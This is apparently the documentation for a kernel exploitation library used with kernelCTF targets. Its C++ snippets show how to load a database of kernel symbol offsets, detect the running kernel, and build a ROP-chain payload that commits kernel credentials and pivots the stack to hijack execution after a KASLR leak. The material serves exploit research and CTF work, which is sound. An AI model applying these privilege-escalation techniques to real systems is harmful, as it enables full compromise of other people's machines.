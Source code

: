 # How to get started

### Creating a Database

1. Add the necessary includes to the exploit code.

    ```c++
    #include <cassert>
    #include <target/TargetDb.cpp>
    #include <test/kpwn/Kpwn.cpp>
    #include <util/incbin.cpp>
    #include <util/syscalls.cpp>
    #include <util/error.cpp>
    #include <util/pwn_utils.cpp>
    #include <payloads/Payload.cpp>
    #include <util/HexDump.cpp>
    #include <util/ArgumentParser.cpp>
    #include <pivot/PivotFinder.cpp>
    #include <pivot/StackPivot.cpp>
    ```

2. Include the **target_db** in the exploit. `INCBIN` creates a read-only section in the binary with the file contents.

    ```c++
    INCBIN(target_db, "target_db.kpwn");
    ```

3. Initialize **TargetDb** and detect which target it's being run on.

    ```c++
    TargetDb kpwn_db(target_db, target_db_size);
    ```

4. Already available in database structure and symbol offsets are documented in `kpwn_db/converter/config.py`. 
They are added for all supported targets.

5. If the needed symbol is not in database, use `StaticTarget` object to add it. One object per target needed. For example:

    ```c++
    StaticTarget st("kernelctf", "cos-105-17412.294.34");

    st.AddSymbol("nft_last_ops", 0x1acaf20);

    kpwn_db.AddStaticTarget(st);
    ```

6. Similar approach could be taken for adding structure and fields information:

    ```c++
    StaticTarget st("kernelctf", "cos-105-17412.294.34");

    st.AddStruct("nft_expr_ops", 128,
                {{"dump", 64, 8},
                {"type", 120, 8}});

    kpwn_db.AddStaticTarget(st);
    ```

    > [!NOTE]
    > `128` in the example above is a size of the `nft_expr_ops` structure. `{"dump", 64, 8}` field is located at the offset of 64 and as it's a pointer, size would be 8 for 64-bit architecture.

7. Auto-detection of target where exploit is going to be executed:

    ```c++
    auto target = kpwn_db.AutoDetectTarget();
    printf("[+] Running on target: %s %s\n", target.distro.c_str(), target.release_name.c_str());
    ```

### Building the Payload

After leaking a kernel address and calculating the KASLR base, you can begin constructing the exploit payload.

1. Initialize a `Payload` object. This will serve as the buffer for our ROP chain and other necessary data.

    ```c++
    Payload payload(1024);
    ```

2. Create the `RopChain`. This object is initialized with target-specific information and the KASLR base. You can then add predefined actions to it. The `Ret2Usr` utility helps in gracefully returning execution to a user-mode function after the kernel operations are complete.

    ```c++
    RopChain rop(target, kaslr_base);
    rop.AddRopAction(RopActionId::COMMIT_KERNEL_CREDS);
    RopUtils::Ret2Usr(rop, (void*)win);
    ```

### Assembling the Final Payload with PayloadBuilder

The `PayloadBuilder` automates the process of finding a suitable pivot gadget and combining it with your payload and ROP chain.

1. Initialize the `PayloadBuilder` with the target's available pivot gadgets and the KASLR base.

    ```c++
    PayloadBuilder builder(target.pivots, kaslr_base);
    ```

2. Add the `payload` object to the builder. You need to specify which register will point to your payload buffer (e.g., `Register::RSI`) and the offset within that buffer where the instruction pointer (`rip`) will be hijacked.

    ```c++
    uint64_t rip_off = fake_ops_offs + release_offs; // Calculated offset for RIP control
    builder.AddPayload(payload, Register::RSI, rip_off);
    ```

3. Add the `RopChain` to the builder.

    ```c++
    builder.AddRopChain(rop);
    ```

4. Build the final payload. The `Build()` method will find an appropriate pivot gadget that uses the specified register (`RSI` in this case) to redirect execution to your ROP chain. The necessary gadgets and the ROP chain itself will be written into the `payload` object you provided earlier.

    ```c++
    if(!builder.Build()) 
        exit(-1); 
    ```

Once built, the `payload` object contains the complete, ready-to-use exploit payload.
